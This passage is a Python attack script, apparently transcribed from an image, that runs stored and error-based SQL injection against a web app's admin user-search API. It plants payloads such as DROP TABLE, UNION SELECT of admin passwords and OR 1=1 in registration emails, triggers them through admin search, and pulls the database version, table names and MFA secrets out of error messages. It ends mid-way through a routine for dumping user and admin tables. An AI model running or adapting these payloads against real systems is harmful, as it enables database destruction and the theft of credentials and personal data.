 ```python
    print("[+] Phase 1: Storing malicious payload...")
    
    payloads = [
        "admin'; DROP TABLE comics;--@evil.com",
        "admin' UNION SELECT password FROM admin_users--@evil.com",
        "admin' OR '1'='1'--@evil.com"
    ]
    
    for payload in payloads:
        print(f"[*] Registering user with payload: {payload}")
        register_malicious_user(payload)
        time.sleep(1)
    
    # Phase 2: Trigger payload via admin search
    print("[+] Phase 2: Triggering stored SQL injection...")
    
    for search_term in ["admin", "evil.com", "'", "--"]:
        response = requests.get(
            f"{TARGET_API}/api/admin/users",
            params={"search": search_term},
            headers={"Authorization": f"Bearer {ADMIN_TOKEN}"}
        )
        
        print(f"[*] Search: {search_term} | Status: {response.status_code}")
        
        if response.status_code == 500:
            print("[VULN] SQL error triggered!")
            print(response.text[:500])
        
        time.sleep(1)

def extract_data_via_error_based():
    """Extract data using error-based SQL injection"""
    
    print("[+] Extracting data via error-based technique...")
    
    # PostgreSQL error-based payload
    error_payloads = [
        "test' AND 1=CAST((SELECT version()) AS int)--",
        "test' AND 1=CAST((SELECT table_name FROM information_schema.tables LIMIT 1) AS int)--",
        "test' AND 1=CAST((SELECT secret_encrypted FROM admin_mfa_enrollments LIMIT 1) AS int)--"
    ]
    
    for payload in error_payloads:
        response = requests.get(
            f"{TARGET_API}/api/admin/users",
            params={"search": payload},
            headers={"Authorization": f"Bearer {ADMIN_TOKEN}"}
        )
        
        if "invalid input syntax" in response.text:
            # Extract data from error message
            print(f"[+] Data leaked in error: {response.text[:200]}")

def automated_data_exfiltration():
    """Automate complete database exfiltration"""
    
    print("[+] Starting automated data exfiltration...")
    
    # List of sensitive tables to dump
    tables = [
        ("users", ["user_id", "email", "auth_provider_id"]),
        ("admin_users", ["user_id", "roles", "permissions"]),
```